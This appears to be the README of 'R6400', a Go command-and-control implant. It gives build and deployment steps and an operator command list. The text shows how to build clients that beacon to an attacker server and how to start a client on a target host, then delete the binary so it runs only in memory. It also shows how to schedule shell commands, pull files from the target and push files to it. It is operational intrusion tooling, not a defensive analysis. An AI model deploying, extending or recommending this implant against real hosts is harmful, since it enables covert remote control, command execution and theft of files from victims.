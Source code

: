 # R6400 Version 1.0

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

At the moment it is a simple beaconing implant written in Go.  Components of r6400 are a client, Listening server and interactive shell.  The client communicates with the server over HTTP (no ssl) at a specified calls interval.  A client can be tasked using the interactive shell to pull and push files, and execute commands on the target host.

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
Apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Install GO
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linuxamd64.gar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Get R6400
```
git clone https://github.com/m4cybersolutions/r6400.git
```

#### Install Go Dependences
```
cd r6400
make deps
```

#### Setup Postres
```
# Start the postgres service
service postgresql start

# Change to the postgres user
su - postgres

# Create a new user
createuser --interactive --pwprompt
# Enter name of role to add: test
# Enter password for new role: pass
# Enter it again: pass
# Shall the new role be a super user? (y/n) y

# Create the database
psql
CREATE DATABASE oso;
\q

# Exit from the postgres user
exit
```

#### Building with the Makefile

Edit the Make file to include the IP for your server and any client specific information.  This can be overridden from the command line as an alternative.  Additional archectures can be added.  To view a list of architectures suppored natively by go, use the go tool command.

```
go tool dist list
```

#### Generic build instructions with make
```
cd r6400

# Build the server
make build_server

# Build the shell
make build_shell

# Build a client
make build_r6400

# Make a custom client with and over ride TARG name
make build_r6400 TARG=M0001

# Make a custom client and over ride all options
make build_r6400 TARG=A0001 URL=https://localhost:8443/tasking SECRET=work CALLS=30 RING=10
```

#### Start the Server
```
cd server
./server -c config.yml

# Starting the Server in a screen session
screen -S r6400_Server
./server -c config.yml
 
# Background the screen session
 ctrl+a d

# To interact with the screen session
 screen -ls (to ensure it is still running)
 screen -x r6400_Server
```

#### Start the Shell
```
cd shell
./shell -c config.yml

# Starting the Server in a screen session
screen -S r6400_Shell
./shell -c config.yml
 
# Background the screen session 
 ctrl+a d

# To interact with the screen session 
 screen -ls (to ensure it is still running)
 screen -x r6400_Shell
```

#### Execute client on target host
```
# Start client
./client &

# To run in memory after starting
rm -f client
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# Connect to oso database
\c r6400

# View tables
\dt

# Drop old tables
DROP TABLE users,agents,results,tasks,tokens;
```

#### Basic usage
```
spys					: List available spys
spy <node>				: Tag into spy for interaction.  spy without a name brings the user back to home and lists spys.
schedule <command>			: Schedule the client to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
scheduled				: Show jobs in the queue not yet deployed for current spy
fire					: Move scheduled jobs into fired queue.  Spy can access jobs only once fired.
revoke 					: Remove fired jobs
revoke reschedule			: Removes fired jobs and places them in the scheduled que to allow for additional commands to be added
flush 					: Flush commands in the scheduled queue
set calls <int>				: Task the spy to modify it's calls interval in seconds.
set ring <int>				: task the spy to offset the calls by (+/-) x seconds.
kill 					: Kill the spy process
job <job id>				: Show the output from a job
jobs					: List complete and deployed jobs
pull <remote file>			: Pulle a file from the target machine.
push <local file> <remote file>		: Push a local file to the target machine.
forget <node>				: Remove a client from the database
dump client 				: Not yet implemented
dump job				: Not yet implemented
```

#### Web Interface monitor

This python script provides a simple web interface that allows the user to have a quick refernce for available nodes, first seen and last seen, along with status of jobs deployed.  Because this is written in python flask it is only recommended to run on the local host ip and use ssh for remote port forward if placing on a different computer.  This application requires a login for access.  Currently the /create-user page is not set to force a login for view.  This can be fixed by uncommenting the four lines on the index/routes.py file under the /create-user route.  If these lines are uncommented the only username which can access this page afterwards is admin.

#### Setup the Web interface monitor

```
cd monitor
apt install python3
pip3 install -r requirements.txt
```

#### Start the Web interface monitor

The BlackBriar1.py script takes a -i for IP address and -p for port

```
python3 BlackBriar1.py -i 127.0.0.1 -p 8000
```

#### Create a new user

Open a browser and browse to http://127.0.0.1:8000/create-user

#### Log in and view Web interface monitor

Open a browser and browse to http://127.0.0.1:8000/login

#### TO DO

1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database.  based on bool value. Preserve pull path

3. Add shell feature to dump client results and commands to disk

4. Add shell command to wipe database

5. Add a scheduler option to run recuring commands at a given interval

6. Add a default option for commands for first check in from clients
